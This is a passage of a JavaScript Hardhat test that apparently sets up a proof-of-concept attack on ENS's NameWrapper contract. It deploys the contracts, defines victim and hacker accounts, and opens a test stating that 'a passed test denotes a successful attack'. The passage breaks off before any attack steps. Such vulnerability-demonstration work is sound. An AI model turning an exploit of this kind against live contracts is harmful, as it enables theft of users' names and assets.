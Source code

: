 ```javascript
  let result
  let MAX_EXPIRY = 2n ** 64n - 1n

  before(async () => {
    signers = await ethers.getSigners()
    dev = await signers[0].getAddress()
    victim = await signers[1].getAddress()
    hacker = await signers[2].getAddress()

    EnsRegistry = await deploy('ENSRegistry')
    EnsRegistryV = EnsRegistry.connect(signers[1])
    EnsRegistryH = EnsRegistry.connect(signers[2])

    BaseRegistrar = await deploy(
      'BaseRegistrarImplementation',
      EnsRegistry.address,
      namehash('eth')
    )

    await BaseRegistrar.addController(dev)
    await BaseRegistrar.addController(victim)

    MetaDataservice = await deploy(
      'StaticMetadataService',
      'https://ens.domains'
    )

    NameWrapper = await deploy(
      'NameWrapper',
      EnsRegistry.address,
      BaseRegistrar.address,
      MetaDataservice.address
    )
    NameWrapperV = NameWrapper.connect(signers[1])
    NameWrapperH = NameWrapper.connect(signers[2])

    // setup .eth
    await EnsRegistry.setSubnodeOwner(
      ROOT_NODE,
      labelhash('eth'),
      BaseRegistrar.address
    )

    //make sure base registrar is owner of eth TLD
    expect(await EnsRegistry.owner(namehash('eth'))).to.equal(
      BaseRegistrar.address
    )
  })

  beforeEach(async () => {
    result = await ethers.provider.send('evm_snapshot')
  })
  afterEach(async () => {
    await ethers.provider.send('evm_revert', [result])
  })

  describe('subdomain can be re-wrapped', () => {
    before(async () => {
      await BaseRegistrar.addController(NameWrapper.address)
      await NameWrapper.setController(dev, true)
    })

    it('a passed test denotes a successful attack', async () => {
```